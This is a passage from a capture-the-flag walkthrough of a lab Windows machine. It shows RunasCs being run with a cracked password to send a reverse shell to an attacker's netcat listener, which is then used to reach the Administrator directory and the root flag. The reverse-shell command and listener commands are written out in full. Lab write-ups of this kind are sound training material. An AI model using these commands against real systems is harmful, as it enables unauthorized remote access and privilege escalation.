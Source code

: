 Now that we have a listener on our attack host, we can execute a reverse shell as the Akanksha user.
```powershell
*Evil-WinRM* PS C:\Users\nica\Documents> .\RunasCs.exe akanksha sweetgirl cmd.exe -r 10.0.2.16:1234

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-3deedc$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 2824 created in background.
```

When we return to our listener we will see a reverse connection from the target. Since this account is a member of the Administrators group, we can use this access to read the root flag in the Administrator home directory.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Liar]
└─$ nc -lvnp 1234                              
listening on [any] 1234 ...                                                                   
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.30] 49678                                       
Microsoft Windows [Versin 10.0.17763.107]                                                     
(c) 2018 Microsoft Corporation. Todos los derechos reservados.                                
                    
C:\Windows\system32> dir C:\Users\Administrador
 El volumen de la unidad C no tiene etiqueta.
 El nmero de serie del volumen es: 26CD-AE41

 Directorio de C:\Users\Administrador

26/09/2023  18:36    <DIR>          .
<SNIP>
26/09/2023  15:24            16.418 new.cfg
26/09/2023  15:11    <DIR>          Pictures
26/09/2023  18:36                13 root.txt
26/09/2023  15:11    <DIR>          Saved Games
26/09/2023  15:11    <DIR>          Searches
26/09/2023  15:11    <DIR>          Videos
               2 archivos         16.431 bytes
              14 dirs  45.913.264.128 bytes libres
```

## Conclusion

Congratulations! In this walkthrough, you have exploited weak passwords to compromise an important account on the system that gave you administrator access. This machine was designed to show how the use of weak passwords could seriously affect the security posture of an organisation. Thank you for following up on this walkthrough.
